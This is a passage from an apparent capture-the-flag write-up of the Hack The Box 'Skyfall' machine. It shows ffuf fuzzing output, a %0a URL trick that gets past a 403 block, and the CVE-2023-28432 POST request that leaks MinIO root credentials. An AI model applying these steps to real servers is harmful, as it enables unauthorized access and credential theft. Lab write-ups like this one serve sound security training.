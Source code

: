 ```markdown
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://demo.skyfall.htb/metricsFUZZ
 :: Wordlist         : FUZZ: /home/kali/htb/skyfall/unicode
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: close
 :: Header           : Host: demo.skyfall.htb
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Referer: http://demo.skyfall.htb/index
 :: Header           : Cookie: session=.eJwljjluwzAQAP_C2oX2oHbXnxHIPZDAQAJIdmX47yGQcqaZebejzry-2v15vvLWju9o96akmGOTkR6AyYkqtc1erBCmCbiJUHhwOu1MGrBPndY5S0uqyFwqBQsGmcmU7sS9yJ2mqltYzYTwlUHoHsS8Q2g5yBgQbY28rjz_b2ChX2cdz99H_iyRw5AmEuAgQQOJ2TE6ZcS-HLhtxDW5ff4AXpdAHQ.Zb-FEQ.bpLEM3a2Qu1y5hlGYx5dx68sXho
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

%0a                     [Status: 200, Size: 157902, Words: 114629, Lines: 2365, Duration: 201ms]
:: Progress: [256/256] :: Job [1/1] :: 62 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```
So the unicode character `%0A` will allow us to bypass the 403 status. Entering the URI: http://demo.skyfall.htb/metrics%0a we reach a site with the server metrics and lots of server-related info.

![Untitled002](https://github.com/g1vi/AllTheWriteUps/assets/120142960/2cdb803c-3e3b-478a-b760-cdc466d0ac40)

This also includes the path of the production endpoint, which is running at: http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster. Entering this URL in Firefox displays additional information.

![Untitled003](https://github.com/g1vi/AllTheWriteUps/assets/120142960/b238bf71-a0ef-42ff-a7a6-60b93d2e7f83)

Now we know we are dealing with a MinIO server. Searching for MinIO vulnerabilities we come across this one: https://www.cvedetails.com/cve/CVE-2023-28432<br>
<br>
To exploit this vulnerability, browse http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify with Firefox and capture the traffic. A message is received "All access to this resource has been disabled". Send to repeater and change the method to POST, the application leaks the MinIO root user and password, just as stated in the CVE.<br>
<br>
